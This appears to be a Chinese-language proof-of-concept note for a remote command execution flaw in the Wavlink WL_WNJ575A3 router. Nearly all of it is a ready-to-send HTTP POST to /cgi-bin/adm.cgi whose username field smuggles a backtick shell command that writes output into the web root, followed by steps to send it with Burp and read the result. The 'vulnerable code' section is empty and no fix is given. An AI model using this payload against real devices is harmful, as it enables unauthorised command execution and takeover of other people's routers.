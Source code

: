 ## 睿因 Wavlink WL_WNJ575A3 远程命令执行
影响版本
Wavlink WL_WNJ575A3 v.R75A3_V1410_220513
漏洞代码
POC
```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 91
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/100.0.4896.60 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;
q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.10.1/set_time.shtml?r=29725
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=1243623152
Connection: close

page=sysAdm&SYSPASS=password&username='`ls>/etc_ro/lighttpd/www/data.html`'&newpass= 12345678


```
1.Burp 发包执行命令
2.访问“data.html”查看命令执行结
